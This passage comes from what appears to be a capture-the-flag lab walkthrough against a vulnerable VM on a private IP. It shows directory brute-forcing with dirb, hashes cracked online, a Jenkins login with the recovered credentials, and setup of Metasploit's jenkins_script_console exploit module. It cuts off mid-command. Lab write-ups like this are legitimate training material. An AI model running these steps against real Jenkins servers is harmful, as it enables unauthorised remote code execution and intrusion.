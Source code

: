 dirb http://192.168.1.122/ -X .html

1

dirb http://192.168.1.122/ -X .html

![](https://i2.wp.com/3.bp.blogspot.com/-7ZWq90YQLg0/W11JzRb1O-I/AAAAAAAAYuE/i6N2eV2kaJUxfzlFO_C6ZIqIh7yf8teGwCLcBGAs/s1600/4.png?w=687&ssl=1)  
Since index.html is the default page and there was another HTML page available, we tried to open it in the browser.  
![](https://i0.wp.com/4.bp.blogspot.com/-pn_RG3-5VY8/W11J0J8pXVI/AAAAAAAAYuI/Uwhd8vtdFP45KgX-QohDU2-8GxALUM0uACLcBGAs/s1600/5.png?w=687&ssl=1)  
We found some password hashes in the access.html that we tried to crack it online on **hashkiller**.  
![](https://i2.wp.com/2.bp.blogspot.com/-nuSjNHuzkbw/W11J0SbW8VI/AAAAAAAAYuM/aZlnQjX5VPYgUjshXpZj8eft06xrdZbuwCLcBGAs/s1600/6.png?w=687&ssl=1)  
WOW! We have three passwords in hand now.  
Now, remember we had port 22 open in our **nmap** scan report, so we tried to login into ssh using the usernames and passwords we just cracked but it didn’t seem to work. So, we looked at another interesting port of 8080 and opened it in the browser.  
![](https://i2.wp.com/2.bp.blogspot.com/-6w3K6AbnadU/W11J0YnSsFI/AAAAAAAAYuQ/iD8eLPWkgq8fnTxTco9pJPGd4kHYXfj0QCLcBGAs/s1600/7.png?w=687&ssl=1)  
We found a web application on Jenkins. It is an open source automation server written in Java. Jenkins helps to automate the non-human part of the software development process, with continuous integration and facilitating technical aspects of continuous delivery.  
We tried to login with all three of the usernames and passwords but the third combination logged us into Jenkins which was:  

eder: vipsu

1

eder:  vipsu

![](https://i0.wp.com/2.bp.blogspot.com/-u-vkcJxQHCo/W11J1MWjDsI/AAAAAAAAYuU/iGVNCMNjY0MSyge_IzxA7W6LytPKN2HpQCLcBGAs/s1600/8.png?w=687&ssl=1)  
Now, we found that Jenkins had a script console vulnerability and its module was in Metasploit.  

use exploit/multi/http/jenkins\_script\_console msf exploit(jenkins\_script\_console) > set target 1 msf exploit(jenkins\_script\_console) > set rhost 192.168.1.122 msf exploit(jenkins\_script\_console) > set rport 8080 msf exploit(jenkins\_script\_console) > set TARGETURI / msf exploit(jenkins\_script\_console) > set USERNAME eder msf exploit(jenkins\_script\_console) > set PASSWORD vipsu msf exploit(jenkins\_script\_console) > exploit

1

2

3

4

5

6

7

8

use  exploit/multi/http/jenkins\_script\_console
